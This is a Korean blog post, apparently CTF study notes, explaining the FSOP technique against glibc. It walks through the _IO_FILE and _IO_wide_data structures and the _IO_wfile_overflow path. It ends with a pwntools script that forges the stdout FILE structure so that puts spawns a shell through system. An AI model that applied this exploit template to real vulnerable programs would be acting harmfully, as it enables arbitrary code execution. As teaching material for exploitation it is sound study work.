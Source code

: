 이 세상에 FSOP 문제는 널리고 널렸지만 영어를 못하는 나는 질 좋은 FSOP 학습 자료를 볼 기회가 별로 없었다.

최근에 FSOP 문제가 너무나 눈에 띄었다. 2024 CCE Quals에서도 FSOP만 알고 있었다면 2시간 만에 풀 수 있었다. 특수한 상황에서만이 아니라, 일반적인(드림핵 4~6렙) 문제 접근에 성공하고 익스할 때, 항상 뭔가 막히면 FSOP 때문이었다.

FSOP까지만 제대로 알아도 든든한 웹이나 암호학 해커와 함께라면 2인으로도 청소년부 본선은 쉽게 갈 것 같다.

dreamhack-invitational-quals 채널에서 값진 문장 하나를 발견했다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDhfMTEy/MDAxNzI4MzgyMTI0OTQx.c4dKOzCF48mwK2HPrs_Bn3XrTqRmaS9GWU4jeQCFl7Qg.im4cxWpwjrNbvScnCdsv17NQvkbVdoK9va1Rjv5upsMg.PNG/SE-96dbf2d6-529c-46e4-8fa2-0c672038f7d8.png?type=w1)


\_IO\_FILE 구조체와 \_IO\_wfile\_overflow에 대해 분석해보면 될 것 같다.

---

# \_IO\_wide\_data

glibc 버전이 높아지면서 vtable을 변조하면 IO_validate_vtable에 의해 걸리므로, \_wide\_vtable을 사용해야 한다.

\_IO\_FILE 구조체를 살펴보면

```javascript
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_wide_data *_wide_data;
```

여기에 _IO_wide_data 가 있음을 알 수 있다.

```javascript
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

여기서 _wide_vtable을 확인할 수 있다. 즉, fp->_wide_data->_wide_vtable을 변조할 수 있다면 항상 익스 가능하다.

---

_IO_wfile_overflow

이제 함수를 분석해보자.

```javascript
wint_t
_IO_wfile_overflow (f, wch)
     _IO_FILE *f;
     wint_t wch;
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  ...
}
libc_hidden_def (_IO_wfile_overflow)
```

_IO_wdoallocbuf(f)를 실행시키고자 한다.

if (f->_flags & _IO_NO_WRITES) 를 만족하지 않아야 한다.

if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0) 를 만족해야 한다.

if (f->_wide_data->_IO_write_base == 0) 를 만족해야 한다.

모두 만족했다면, 해당 함수로 들어간다.

```javascript
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

_IO_WDOALLOCATE (fp)를 실행시키고자 한다.

if (fp->_wide_data->_IO_buf_base) 를 만족하지 않아야 한다.

if (!(fp->_flags & _IO_UNBUFFERED)) 을 만족해야 한다. ( (fp->_flags & _IO_UNBUFFERED) == 0 )

이 때 _IO_WDOALLOCATE은 _IO_wide_data의 vtable을 참조하는 매크로이다. 따라서 FSOP가 성립한다.

문제에서 접근할 때, puts, write, scanf는 내부적으로 vtable의 함수를 호출하는데 이들을 잘 조작해서 _IO_wfile_overflow가 호출되도록 하면 된다. _IO_wfile_overflow는 _IO_validate_vtable에 걸리지 않는 유효한 범위에 있으므로 가능하다.

한 줄로 정리하자면 fp -> _wide_data(변조) -> _wide_vtable(변조) -> one_gadget or system with fp = ';sh'

---

puts를 기준으로 정리해보자.

```javascript
def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)
```

puts는 내부적으로 *vtable + 0x38에 있는 _IO_new_file_xsputn를 호출한다. 우리는 *_IO_wfile_jumps + 0x18에 있는 _IO_wfile_overflow을 호출할 것이므로, vtable을 *_IO_wfile_jumps - 0x20으로 하면 offset을 맞출 수 있다.

*_wide_data의 offset은 자유롭게 설정할 수 있지만, -0x10이 가장 무난해보인다. 이렇게 설정하면, _wide_vtable은 _unused2의 마지막 부분에 있게 되므로, 이를 *_IO_2_1_stdout_ - 0x8로 바꾼다. 여기서의 offset 또한 자유이지만 가장 직관적인 것을 선택했다.

_IO_WDOALLOCATE는 *wide_vtable + 0x68을 참조하는 매크로이다. 따라서 위와 같이 FSOP를 진행했다면 *_IO_2_1_stdout_ + 0x60(- 0x8 + 0x68)인 _markers 부분을 참조하는 것이다. 여기에 system함수나, one_gadget을 넣어 쉘을 딸 수 있다.